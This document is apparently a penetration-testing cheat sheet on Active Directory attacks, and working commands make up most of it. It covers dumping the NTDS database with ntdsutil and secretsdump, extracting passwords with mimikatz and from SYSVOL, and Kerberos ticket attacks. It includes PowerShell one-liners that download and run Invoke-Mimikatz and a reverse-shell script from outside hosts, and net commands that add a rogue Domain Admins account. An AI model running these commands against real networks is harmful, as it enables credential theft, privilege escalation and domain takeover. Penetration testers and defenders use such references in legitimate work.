 # Active Directory Attacks

## Most common paths to AD compromise
  * MS14-068 (Microsoft Kerberos Checksum Validation Vulnerability)
    ```bash
    Exploit Python: https://www.exploit-db.com/exploits/35474/
    Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
    Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
    ```
  * MS17-010 (Eternal Blue - Local Admin)
    ```c
    nmap -Pn -p445 — open — max-hostgroup 3 — script smb-vuln-ms17–010 <ip_netblock>
    ```
  * Unconstrained Delegation (incl. pass-the-ticket)
  * OverPass-the-Hash (Making the most of NTLM password hashes)
  * Pivoting with Local Admin & Passwords in SYSVOL
    ```c
    findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml

    or

    Metasploit: scanner/smb/smb_enumshares
    Metasploit: windows/gather/enumshares
    Metasploit: windows/gather/credentials/gpp
    ```
  * Dangerous Built-in Groups Usage
  * Dumping AD Domain Credentials
  ```c
  C:\>ntdsutil
  ntdsutil: activate instance ntds
  ntdsutil: ifm
  ifm: create full c:\pentest
  ifm: quit
  ntdsutil: quit

  secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL

  or

  Metasploit : windows/gather/credentials/domain_hashdump
  ```
  * Golden Tickets
  ```c
  mimikatz
  kerberos::ptc tgt.bin
  ```
  * Kerberoast
    ```c
    https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
    https://room362.com/post/2016/kerberoast-pt1/
    ```
  * Silver Tickets
  * Trust Tickets


## Tools
  * [Impacket](https://github.com/CoreSecurity/impacket)
  * Responder
  * Mimikatz
  * [Ranger](https://github.com/funkandwagnalls/ranger)
  * BloodHound
  * RottenPotato
  * [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)

## Mimikatz
```
load mimikatz
mimikatz_command -f sekurlsa::logonPasswords full
```

## PowerSploit
```
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```


## PrivEsc - Token Impersonation (RottenPotato)
Binary available at : https://github.com/foxglovesec/RottenPotato      
Binary available at : https://github.com/breenmachine/RottenPotatoNG   
```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


## PrivEsc - MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
```
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```


## Local Admin to Domain Admin
```
net user hacker2 hacker123 /add /Domain
net group "Domain Admins" hacker2 /add /domain
```


## Thanks to
 * [https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html](https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html)
 * [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition) - Adam Toscher](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
 * [Road to DC](https://steemit.com/infosec/@austinhudson/road-to-dc-part-1)
 * [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
